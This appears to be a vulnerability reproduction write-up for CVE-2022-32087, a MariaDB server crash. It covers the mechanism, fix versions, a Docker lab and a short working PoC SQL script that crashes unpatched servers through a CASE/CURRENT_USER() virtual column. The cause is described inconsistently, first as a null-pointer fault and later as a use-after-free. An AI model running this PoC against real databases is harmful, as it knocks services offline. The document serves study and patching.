



# CVE-2022-32087 MariaDB segment error

## Vulnerability Background
- **MariaDB :** An open-source relational database management system developed by the founders of MySQL, highly compatible with MySQL. It features high performance, high security, and ease of use, supporting multiple storage engines to ensure reliable data storage and efficient read/write operations. At the same time, MariaDB also possesses powerful query optimization capabilities, enhancing database performance and being widely used across various industries, providing strong support for data storage and management.

## Vulnerability Mechanism
In MariaDB, `Item_args::walk_args` does not properly handle the lifecycle and null pointer boundaries of child nodes for certain complex expressions (such as embedding runtime functions `current_user()` into `CASE 'x' WHEN ...` and similar generated list expressions) when iterating over function or expression parameters; When parsers/optimizers repeatedly traverse or reuse specific paths of the expression tree, they access pointers that are not initialized or have been shifted, causing invalid memory to be dereferenced and triggering segmentation faults, which can be remotely triggered as a denial of service (DoS).

## Vulnerability Location
By analyzing the MDEV-26437 debug stack in MariaDB 10.7.0, you can locate the issue to the "refixed" path of the session-related virtual column:

- `sql/table.cc` `fix_vcol_expr()` reprocesses the virtual list expression in the cached table;
- `sql/item_cmpfunc.cc` `Item_func_case::fix_fields()` re-fixes `CASE` expression and its parameters;
- When `sql/item_func.cc`'s `Item_func::check_argument_types_scalar()` calls `Item::check_type_scalar()` in `sql/item.cc`, it executes a virtual function call on the failed expression node, eventually entering `__cxa_pure_virtual` and crashing; The related issue is classified by MDEV/CVE as `Item_args::walk_args` component defects.

```cpp
bool fix_vcol_expr(THD *thd, Virtual_column_info *vcol)
{
  Item *expr= vcol->expr;
  /* A cached session-dependent CASE/CURRENT_USER expression is refixed here. */
  return expr->fix_fields(thd, &vcol->expr);
}
```

The key condition for PoC is that the virtual column contains `CASE ... CURRENT_USER()`, and after the table object enters the cache, it is reused in the new statement. The second fixed expression tree visits an invalid node, so `fix_vcol_expr()` → `Item_func_case::fix_fields()` → `Item::check_type_scalar()` is the actual trigger chain.

## Remediation

Upgrade to MariaDB 10.3.35, 10.4.25, 10.5.16, 10.6.8, 10.7.4, or later containing the MDEV-26437 correction. The fix prevents cached session-dependent virtual-column expressions from being re-fixed with stale `Item` nodes; the rebuilt `CASE` expression and its arguments are placed in a valid lifetime before scalar type checks run.

Until patched, restrict untrusted DDL and avoid virtual columns that combine `CASE` with `CURRENT_USER()` or other session-dependent functions. Clearing table caches or restarting after schema changes may reduce reuse of stale metadata, but it is not a substitute for upgrading.

## Affected Versions
**Affected version:** MariaDB:

- 10.3.0 to 10.3.34
- 10.4.0 to 10.4.24
- 10.5.0 to 10.5.15
- 10.6.0 to 10.6.7
- 10.7.0 to 10.7.3

## Environment Setup
Start the Docker environment, MariaDB version is 10.6.3, administrator user is root, password is 12345, there is a database test_db, open port 3306, and PoC file CVE-2022-32087-PoC.sql already exists in the container.

```txt
NIST: NVD Base Score: 7.5 HIGHVector:  CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
```

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line

```bash
docker exec -it mariadb-10.6.3 bash
```

2. Log in with the root user and connect to the database test_db, password 12345

```sql
mariadb -u root -p test_db
```

3. Run the PoC file CVE-2022-32087-PoC.sql, and you'll see that the connection is disconnected and the container automatically closes

```sql
source CVE-2022-32087-PoC.sql
```



4. Review the MariaDB crash log, and you can see that the occurrence of UAF causes DoS, with the problem occurring within the `Item_args::walk_args` and corresponding to the vulnerability principle.

```bash
docker logs mariadb-10.6.3
```



## PoC Analysis

```sql
-- A table t1 with a virtual column vi is created
CREATE TABLE t1 (
  vi INT AS (
    CASE 'x' WHEN CURRENT_USER() THEN 1 END
  )
);

SELECT 1 FROM t1 WHERE vi = 1;
SELECT 1 FROM t1 WHERE vi = 1;

```

The computational expression of the virtual column `vi` depends on the `current_user()` function. `current_user()` is a typical **session-dependent function**, and its return value depends entirely on which user is currently connecting to the database. When MariaDB creates this table, it sets a flag (`vcols_need_refixing`) in its internal metadata to tell the system: "The virtual columns of this table are not fixed. Every time you use them in a new session, you need to recheck and refix their expressions." ”

After the table is queried for the first time, for performance reasons, MariaDB will place the structure of the `t1` table (including parsed `vi` expressions) into the **table cache**. At this point, the expression in the cache is associated with the context of the current session (first `SELECT`).

For the second query, for efficiency, the server does not reopen the `t1` on disk, but instead directly retrieves the previously used `t1` object from the table cache.

## References
[NVD - CVE-2022-32087](https://nvd.nist.gov/vuln/detail/CVE-2022-32087)

[[MDEV-26437\] Server crashes in Item_args::walk_args - Jira --- [MDEV-26437] Server crashes in Item_args::walk_args - Jira](https://jira.mariadb.org/browse/MDEV-26437)
